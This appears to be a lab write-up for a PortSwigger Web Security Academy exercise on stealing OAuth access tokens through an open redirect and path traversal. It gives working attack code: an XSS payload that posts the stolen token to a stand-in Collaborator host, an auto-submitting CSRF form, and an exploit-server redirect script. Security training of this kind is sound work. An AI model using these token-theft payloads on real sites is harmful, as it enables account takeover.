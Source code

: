 # [Lab: Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

## Lab

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

```text
Note
You cannot access the admin's API key by simply logging in to their account on the client application.
```

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: `wiener:peter`.

## Analysis

whitelist-based filter:

```regex
^https://id.web-security-academy.net/oauth-callback/
```

We can use `path traversal` to bypass the whitelist-based filter and exploit other vulnerabilities of the target.

## Solutions

Solution 1, exploit the xss vulnerability at `/post/comment/confirmation?postId=xss`

- payload:

  ```js
  <script>
    const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
    const token = urlSearchParams.get('access_token');
    fetch('https://collaboratorip',{
      method:'POST',
      mode: 'no-cors',
      body: token
    });
  </script>
  ```

- csrf-like attack:

  ```html
  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
      <form action="https://oauth-id.web-security-academy.net/auth">
        <input type="hidden" name="client_id" value="ormdsztpqjms7ew7gfe49" />
        <input type="hidden" name="redirect_uri" value="https://id.web-security-academy.net/oauth-callback/../post/comment/confirmation?postId="></a><script>const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));const token = urlSearchParams.get('access_token');fetch('https://collaboratorip',{method:'POST',mode: 'no-cors',body: token});</script> />
        <input type="hidden" name="response_type" value="token" />
        <input type="hidden" name="nonce" value="1976118293" />
        <input type="hidden" name="scope" value="openid&#32;profile&#32;email" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
  </html>
  ```

Solution 2, exploit the open redirect vulnerability:

  ```http
  GET /post/next?path=boom HTTP/1.1

  HTTP/1.1 302 Found
  Location: boom
  ```

- exploit-server:

  ```html
  <script>
      if (!document.location.hash) {
          window.location = 'https://oauth-id.web-security-academy.net/auth?client_id=kc79l1452vzad3jacaj3e&redirect_uri=https://id.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-id.exploit-server.net/exploit&response_type=token&nonce=995953865&scope=openid%20profile%20email'
      } else {
          window.location = '/?'+document.location.hash.substr(1)
      }
  </script>
  ```
